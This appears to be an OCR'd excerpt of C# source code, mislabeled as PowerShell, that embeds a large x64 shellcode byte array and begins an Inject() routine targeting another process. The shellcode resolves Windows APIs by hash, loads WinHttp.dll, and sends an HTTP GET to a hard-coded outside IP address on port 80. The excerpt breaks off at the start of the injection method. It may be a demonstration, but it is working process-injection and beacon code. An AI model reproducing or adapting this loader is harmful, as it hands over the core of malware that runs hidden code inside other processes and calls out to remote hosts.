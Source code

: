 ```powershell
    private static readonly byte[] s_shellcode = new byte[] { 0x48, 0x83, 0xEC, 0x48, 0x48, 0x83, 0xE4, 0xF0, 0x48, 0x89, 0xE5, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x40, 0x18, 0x48, 0x8B, 0x40, 0x20, 0x48, 0x89, 0x45, 0x08, 0x48, 0x8B, 0x45, 0x08, 0x48, 0x8B, 0x48, 0x50, 0xE8, 0x9E, 0x02, 0x00, 0x00, 0x3D, 0x3F, 0xD6, 0xEC, 0x8F, 0x48, 0x8B, 0x45, 0x08, 0x74, 0x09, 0x48, 0x8B, 0x00, 0x48, 0x89, 0x45, 0x08, 0xEB, 0xDF, 0x48, 0x8B, 0x40, 0x20, 0x49, 0x89, 0xC6, 0x48, 0x89, 0xC1, 0xBA, 0x8E, 0x4E, 0x0E, 0xEC, 0xE8, 0xBD, 0x02, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0x6B, 0x02, 0x00, 0x00, 0xE8, 0x0C, 0x00, 0x00, 0x00, 0x57, 0x69, 0x6E, 0x48, 0x74, 0x74, 0x70, 0x2E, 0x64, 0x6C, 0x6C, 0x00, 0x59, 0xFF, 0xD0, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0x4E, 0x02, 0x00, 0x00, 0x49, 0x89, 0xC5, 0xBA, 0xBE, 0x6D, 0x02, 0xD1, 0x4C, 0x89, 0xE9, 0xE8, 0x87, 0x02, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0x35, 0x02, 0x00, 0x00, 0xE8, 0x32, 0x00, 0x00, 0x00, 0x4D, 0x00, 0x79, 0x00, 0x48, 0x00, 0x6F, 0x00, 0x76, 0x00, 0x65, 0x00, 0x72, 0x00, 0x63, 0x00, 0x72, 0x00, 0x61, 0x00, 0x66, 0x00, 0x74, 0x00, 0x49, 0x00, 0x73, 0x00, 0x46, 0x00, 0x75, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x4F, 0x00, 0x66, 0x00, 0x45, 0x00, 0x65, 0x00, 0x6C, 0x00, 0x73, 0x00, 0x00, 0x00, 0x59, 0x48, 0x83, 0xEC, 0x30, 0x4D, 0x31, 0xC9, 0x4D, 0x31, 0xC0, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x44, 0x89, 0x4C, 0x24, 0x20, 0xE8, 0x00, 0x01, 0x00, 0x00, 0x4D, 0x00, 0x6F, 0x00, 0x7A, 0x00, 0x69, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x61, 0x00, 0x2F, 0x00, 0x35, 0x00, 0x2E, 0x00, 0x30, 0x00, 0x20, 0x00, 0x28, 0x00, 0x57, 0x00, 0x69, 0x00, 0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x77, 0x00, 0x73, 0x00, 0x20, 0x00, 0x4E, 0x00, 0x54, 0x00, 0x20, 0x00, 0x31, 0x00, 0x30, 0x00, 0x2E, 0x00, 0x30, 0x00, 0x3B, 0x00, 0x20, 0x00, 0x57, 0x00, 0x69, 0x00, 0x6E, 0x00, 0x36, 0x00, 0x34, 0x00, 0x3B, 0x00, 0x20, 0x00, 0x78, 0x00, 0x36, 0x00, 0x34, 0x00, 0x29, 0x00, 0x20, 0x00, 0x41, 0x00, 0x70, 0x00, 0x70, 0x00, 0x6C, 0x00, 0x65, 0x00, 0x57, 0x00, 0x65, 0x00, 0x62, 0x00, 0x4B, 0x00, 0x69, 0x00, 0x74, 0x00, 0x2F, 0x00, 0x35, 0x00, 0x33, 0x00, 0x37, 0x00, 0x2E, 0x00, 0x33, 0x00, 0x36, 0x00, 0x20, 0x00, 0x28, 0x00, 0x4B, 0x00, 0x48, 0x00, 0x54, 0x00, 0x4D, 0x00, 0x4C, 0x00, 0x2C, 0x00, 0x20, 0x00, 0x6C, 0x00, 0x69, 0x00, 0x6B, 0x00, 0x65, 0x00, 0x20, 0x00, 0x47, 0x00, 0x65, 0x00, 0x63, 0x00, 0x6B, 0x00, 0x6F, 0x00, 0x29, 0x00, 0x20, 0x00, 0x43, 0x00, 0x68, 0x00, 0x72, 0x00, 0x6F, 0x00, 0x6D, 0x00, 0x65, 0x00, 0x2F, 0x00, 0x34, 0x00, 0x32, 0x00, 0x2E, 0x00, 0x30, 0x00, 0x2E, 0x00, 0x32, 0x00, 0x33, 0x00, 0x31, 0x00, 0x31, 0x00, 0x2E, 0x00, 0x31, 0x00, 0x33, 0x00, 0x35, 0x00, 0x20, 0x00, 0x53, 0x00, 0x61, 0x00, 0x66, 0x00, 0x61, 0x00, 0x72, 0x00, 0x69, 0x00, 0x2F, 0x00, 0x35, 0x00, 0x33, 0x00, 0x37, 0x00, 0x2E, 0x00, 0x33, 0x00, 0x36, 0x00, 0x20, 0x00, 0x45, 0x00, 0x64, 0x00, 0x67, 0x00, 0x65, 0x00, 0x2F, 0x00, 0x31, 0x00, 0x32, 0x00, 0x2E, 0x00, 0x32, 0x00, 0x34, 0x00, 0x36, 0x00, 0x00, 0x00, 0x59, 0xFF, 0xD0, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0xD8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC4, 0xBA, 0x8F, 0xAE, 0x8A, 0x00, 0x4C, 0x89, 0xE9, 0xE8, 0x11, 0x01, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0xBF, 0x00, 0x00, 0x00, 0x4C, 0x89, 0xE1, 0xE8, 0x1E, 0x00, 0x00, 0x00, 0x32, 0x00, 0x30, 0x00, 0x34, 0x00, 0x2E, 0x00, 0x37, 0x00, 0x39, 0x00, 0x2E, 0x00, 0x31, 0x00, 0x39, 0x00, 0x37, 0x00, 0x2E, 0x00, 0x32, 0x00, 0x30, 0x00, 0x33, 0x00, 0x00, 0x00, 0x5A, 0x41, 0xB8, 0x50, 0x00, 0x00, 0x00, 0x45, 0x31, 0xC9, 0xFF, 0xD0, 0x48, 0x85, 0xC0, 0x0F, 0x84, 0x84, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC4, 0xBA, 0xC1, 0xE1, 0x34, 0x8F, 0x4C, 0x89, 0xE9, 0xE8, 0xBD, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x6F, 0x4D, 0x31, 0xC9, 0x48, 0x83, 0xEC, 0x40, 0x4C, 0x89, 0x4C, 0x24, 0x30, 0x4C, 0x89, 0x4C, 0x24, 0x28, 0x4D, 0x31, 0xC9, 0x4D, 0x31, 0xC0, 0x4C, 0x89, 0x4C, 0x24, 0x20, 0xE8, 0x08, 0x00, 0x00, 0x00, 0x47, 0x00, 0x45, 0x00, 0x54, 0x00, 0x00, 0x00, 0x5A, 0x4C, 0x89, 0xE1, 0xFF, 0xD0, 0x48, 0x85, 0xC0, 0x74, 0x3B, 0x49, 0x89, 0xC4, 0xBA, 0x82, 0x88, 0x34, 0x98, 0x4C, 0x89, 0xE9, 0xE8, 0x74, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x26, 0x48, 0x83, 0xEC, 0x40, 0x4D, 0x31, 0xC9, 0x4C, 0x89, 0x4C, 0x24, 0x30, 0x4D, 0x31, 0xC0, 0x4C, 0x89, 0x4C, 0x24, 0x28, 0x48, 0x31, 0xD2, 0x4C, 0x89, 0xE1, 0x4C, 0x89, 0x4C, 0x24, 0x20, 0xFF, 0xD0, 0x48, 0x85, 0xC0, 0x74, 0x00, 0xEB, 0xFE, 0x31, 0xC0, 0x31, 0xD2, 0x48, 0x85, 0xC9, 0x74, 0x23, 0x66, 0x8B, 0x11, 0x66, 0x85, 0xD2, 0x74, 0x1B, 0x48, 0x83, 0xC1, 0x02, 0xC1, 0xC8, 0x0D, 0x66, 0x83, 0xFA, 0x41, 0x72, 0x0A, 0x66, 0x83, 0xFA, 0x5A, 0x77, 0x04, 0x66, 0x83, 0xC2, 0x20, 0x01, 0xD0, 0xEB, 0xDD, 0xC3, 0x31, 0xC0, 0x31, 0xD2, 0x48, 0x85, 0xC9, 0x74, 0x10, 0x8A, 0x11, 0x84, 0xD2, 0x74, 0x0A, 0x48, 0xFF, 0xC1, 0xC1, 0xC8, 0x0D, 0x01, 0xD0, 0xEB, 0xF0, 0xC3, 0x48, 0x31, 0xC0, 0x48, 0x85, 0xC9, 0x74, 0x72, 0x49, 0x89, 0xC9, 0x4D, 0x31, 0xC0, 0x45, 0x8B, 0x41, 0x3C, 0x47, 0x8B, 0x84, 0x01, 0x88, 0x00, 0x00, 0x00, 0x4D, 0x01, 0xC8, 0x48, 0x31, 0xC9, 0x41, 0x8B, 0x48, 0x18, 0x4D, 0x31, 0xD2, 0x45, 0x8B, 0x50, 0x20, 0x4D, 0x01, 0xCA, 0x48, 0x31, 0xC0, 0x67, 0xE3, 0x46, 0xFF, 0xC9, 0x4D, 0x31, 0xDB, 0x45, 0x8B, 0x1C, 0x8A, 0x4D, 0x01, 0xCB, 0x51, 0x52, 0x4C, 0x89, 0xD9, 0xE8, 0x9C, 0xFF, 0xFF, 0xFF, 0x5A, 0x59, 0x39, 0xD0, 0x75, 0xDE, 0x4D, 0x31, 0xD2, 0x45, 0x8B, 0x50, 0x24, 0x4D, 0x01, 0xCA, 0x66, 0x41, 0x8B, 0x0C, 0x4A, 0x48, 0x81, 0xE1, 0xFF, 0xFF, 0x00, 0x00, 0x4D, 0x31, 0xD2, 0x45, 0x8B, 0x50, 0x1C, 0x4D, 0x01, 0xCA, 0x48, 0x31, 0xC0, 0x41, 0x8B, 0x04, 0x8A, 0x4C, 0x01, 0xC8, 0xC3 };
    public static void Main(string[] args)
    {
        Inject();
    }
    public static void Inject()
    {
        string targetProcessCommand = Environment.ExpandEnvironmentVariables(c_targetProcess);
```